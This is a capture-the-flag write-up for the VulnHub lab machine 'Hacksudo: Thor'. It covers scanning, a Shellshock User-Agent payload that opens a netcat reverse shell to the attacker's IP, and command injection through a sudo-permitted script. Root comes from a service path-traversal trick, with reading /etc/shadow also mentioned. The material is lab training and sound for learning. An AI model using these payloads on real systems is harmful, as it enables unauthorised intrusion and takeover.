






<p align="center">
  
</p>

---
<div align="center">

<table>
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td>VulnHub - Hacksudo: Thor</td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>04.10.2025</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td>Privilege Escalation (sudo misconfig)</td>
  </tr>
  <tr>
    <td align="left" ><b>💻 Platform</b></td>
    <td>Linux</td>
  </tr>
</table>

</div>

---
## Table of Contents

- [Summary](#-%EF%B8%8F--attack-implemented)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Initial Access](#-initial-access)
- [Horizontal Privilege Escalation](#%EF%B8%8F--horizontal-privilege-escalation)
- [Vertical Privilege Escalation](#%EF%B8%8F----vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---

<h2 align="center"> ⚔️  Attack Implemented</h2>

<div align="center">

<table width="100%">
  <thead>
    <tr>
      <th style="min-width: 250px; white-space: nowrap;">Tactics</th>
      <th>Techniques</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="left"><b>TA0043 - Reconnaissance</b></td>
      <td align="left"><b>T1595 - Active Scanning</b></td>
      <td>Scanning the target system. Identifying open ports and services</td>
    </tr>
    <tr>
      <td align="left"><b>TA0001 - Initial Access</b></td>
      <td align="left"><b>T1190 - Exploit Public-Facing Application</b></td>
      <td>Initial system access via shellshock exploit in cgi-bin script</td>
    </tr>
    <tr>
      <td align="left"><b>TA0002 - Execution</b></td>
      <td align="left"><b>T1059 - Command and Scripting Interpreter</b></td>
      <td>Using the Bash interpreter to execute commands to obtain a reverse shell</td>
    </tr>
    <tr>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>T1548 - Abuse Elevation Control Mechanism</b></td>
      <td>exploiting a misconfigured sudo</td>
    </tr>
  </tbody>
</table>

<br>

<table>
  <tr>
    <th>User Flag</th>
    <td><code>flag{user owned}</code></td>
  </tr>
  <tr>
    <th>Root Flag</th>
    <td><code>flag{rooted}</code></td>
  </tr>
</table>

</div>

---

<h2 align="center"> 📝 Report</h2>

> We load the image of the vulnerable machine into `virtualbox`:

<p align="center">
 
</p>

> IP address of the machine being attacked - `192.168.50.16`

---
## 🕵️  Reconnaissance

> We scan the target and determine open ports and services running on them using `nmap` in two steps:

```bash

sudo nmap -p- -vv -T5 --min-rate=1000 192.168.50.16 -oN list_open_ports | grep -E '^[0-9]+/tcp[[:space:]]+open' | cut -d '/' -f1 | paste -sd, - > ports.txt

```
```bash

sudo nmap -p$(cat ports.txt) -vv -A -n 192.168.50.16 -oN full_scan_results

```
> Results:

```bash

Discovered open port 80/tcp on 192.168.50.16
Discovered open port 22/tcp on 192.168.50.16

```
```bash

22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8)

```
> From the scan results I see the following open ports:

- `22 (ssh)` - used for ssh connections (OpenSSH 7.9p1)
- `80 (web)` - web server is running (Apache 2.4.38)

> Open the page on port `80` in your browser and you will see the login form:

<p align="center">
 
</p>

> Let's scan the target for interesting directories using `ffuf`:

```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u 'http://192.168.50.16/FUZZ/' -ic -c

```
<p align="center">
 
</p>

> There is an interesting directory `cgi-bin`.

> [!IMPORTANT]
`cgi-bin` stands for `Common Gateway Interface`. `bin` stands for binary (executable files). This is a special legacy directory where the web server stores executable scripts run
via the `CGI` protocol. These scripts are executed on the server side and can have various extensions: `.cgi`, `.pl`, `.sh`, `.py`, etc. When such a script is accessed, the server runs it
and passes data through environment variables (e.g. `QUERY_STRING`, `REQUEST_METHOD`, `CONTENT_TYPE`, etc.), as well as through standard input (for `POST` requests). **If the execution**
**of such scripts is handled insecurely—for example, without filtering or validating input data—this could lead to remote command execution (`RCE`) on the server.**

> Let's run fuzzing via `ffuf` on the following extensions: `.cgi`, `.pl`, `.sh`, `.py` to find out which scripts are stored in the `/cgi-bin/` directory:

```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u 'http://192.168.50.16/cgi-bin/FUZZ/' -ic -c -e .cgi,.sh,.pl,.py

```
<p align="center">
 
</p>

> The scan revealed the presence of two scripts: `backup.cgi` and `shell.sh`. This is our `Initial Access` through exploitation of the legacy `Shellshock vulnerability`.

---
## 🔓 Initial Access

> [!IMPORTANT]
`Shellshock` is a vulnerability in `Bash` (also known as `Bashdoor`) that allows arbitrary code execution through `Environment Variables`. The vulnerability enables an attacker
to pass an `Environment Variable` containing a function definition and append arbitrary code after it, which will be executed when a new bash process is launched. We know that
the server processes `CGI` requests through `bash` using scripts located in the `cgi-bin` directory. When such a script is requested, the server starts a process `via bash`, first
creating `Environment Variables` (including those derived from `HTTP headers`). If the server does not validate or filter HTTP request headers, `Bash` interprets the contents passed
in them as functions, and everything following as a command, which is executed immediately upon shell startup.

> For exploitation I will modify the `User-Agent` header.

> In `BurpSuite`, intercept a `GET` request for any page and change the value of the `User-Agent` header to `() { :;}; /bin/bash -c 'busybox nc 192.168.50.127 1111 -e sh'`:

<p align="center">
 
</p>

> On our system, we launch the `netcat` listener and send a request:

<p align="center">
 
</p>

> We gain access to the system under the `www-data` account.

> [!NOTE]
You can use any of the existing `cgi-bin` scripts. It doesn't matter.

---
## 🔑↔️  Horizontal Privilege Escalation

> Upgrading the terminal shell to `pty` (`pseudo`):

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo;fg
export TERM=xterm-256color
reset

```
```bash

bash-4.3$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash-4.3$

```
> Let's print information from the `sudoers` configuration to find out what commands the current user can run with `sudo`:

```bash

bash-4.3$ sudo -l

Matching Defaults entries for www-data on HackSudoThor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on HackSudoThor:
    (thor) NOPASSWD: /home/thor/./hammer.sh

bash-4.3$

```
> The user `www-data` is allowed to run the script `hammer.sh` as ​​user `thor` without having to enter a password via `sudo`.

> Run the script as `thor`:

```bash

bash-4.3$ sudo -u thor /home/thor/./hammer.sh

HELLO want to talk to Thor?

Enter Thor  Secret Key : 123
Hey Dear ! I am 123 , Please enter your Secret massage : /bin/bash

id
uid=1001(thor) gid=1001(thor) groups=1001(thor)


```
> The script can execute commands passed to it in the `secret massage` input field. Since the script runs with the `thor` user's privileges, we simply pass it the command to
> launch the `bash` shell, thereby entering the shell while maintaining the `thor` user's privileges.

> Upgrading the shell:

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

```
```bash

thor@HacksudoThor:/usr/lib/cgi-bin$ cd /home/thor/
thor@HacksudoThor:~$ ls -lah

total 508K
drwxrwx--- 5 thor thor 4.0K Aug  2  2021 .
drwxr-xr-x 3 root root 4.0K Aug  2  2021 ..
-rw------- 1 thor thor 1.2K Oct  4 15:58 .bash_history
-rw-r--r-- 1 thor thor  220 Jul 29  2021 .bash_logout
-rw-r--r-- 1 thor thor 3.5K Jul 29  2021 .bashrc
drwx------ 3 thor thor 4.0K Jul 30  2021 .gnupg
drwxr-xr-x 3 thor thor 4.0K Jul 29  2021 .local
-rw-r--r-- 1 thor thor  807 Jul 29  2021 .profile
drwx------ 2 thor thor 4.0K Aug  2  2021 .ssh
-rw-r--r-- 1 thor thor    4 Aug  2  2021 file
-rw-r--r-- 1 thor thor   26 Aug  2  2021 file.sh
-rw-r--r-- 1 thor thor  10K Jul 29  2021 hack.tar
-rwxrwxrwx 1 root root  233 Jul 30  2021 hammer.sh
-rw------- 1 thor thor 1.9K Aug  2  2021 id_rsa
-rw-r--r-- 1 thor thor    8 Aug  2  2021 ll
-rwxr-xr-x 1 root root 436K Aug  2  2021 tar
-rw-r----- 1 thor thor   11 Jul 29  2021 user.txt

thor@HacksudoThor:~$ cat user.txt
user owned
thor@HacksudoThor:~$

```

> User `thor` has been compromised.

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 User flag</b><br/>
      <code>User Owned</code>
    </td>
  </tr>
</table>

</div>

---
## 🔑⬆️    Vertical Privilege Escalation

> We use the same privilege escalation technique via `sudo`:

```bash

thor@HacksudoThor:~$ sudo -l
Matching Defaults entries for thor on HackSudoThor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User thor may run the following commands on HackSudoThor:
    (root) NOPASSWD: /usr/bin/cat, /usr/sbin/service
thor@HacksudoThor:~$

```
> User `thor` is allowed to run `cat` and `service` as `root` without requiring a password.

> Accordingly, there are two ways to elevate privileges to `root`. Either use `cat` to read `/etc/shadow`, get the `root password hash`, and log in as that user.
> Or go to `gtfobins` and elevate privileges via `service`:

```bash

thor@HacksudoThor:~$ sudo /usr/sbin/service ../../bin/bash
bash-4.3# id
uid=0(root) gid=0(root) groups=0(root)
bash-4.3# cd /root
bash-4.3# cat root.txt
rooted
bash-4.3#

```

> root flag - `rooted`

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>rooted</code>
    </td>
  </tr>
</table>

</div>


---
## 🧠 Conclusion

> [!NOTE]
During the attack on the `hacksudo: Thor` system, directory scanning revealed an outdated and vulnerable `cgi-bin` directory containing two scripts: `backup.cgi` and `shell.sh`.
Exploitation of the `shellshock` vulnerability via the `shell.sh` script by injecting a command into the HTTP `User-Agent` header — allowed `Initial Access` to the system as the
`www-data` user. Subsequent `Local Enumeration` revealed a potentially insecure `sudoers` configuration for both the `www-data` and `thor` users, which ultimately led to `full system compromise`.
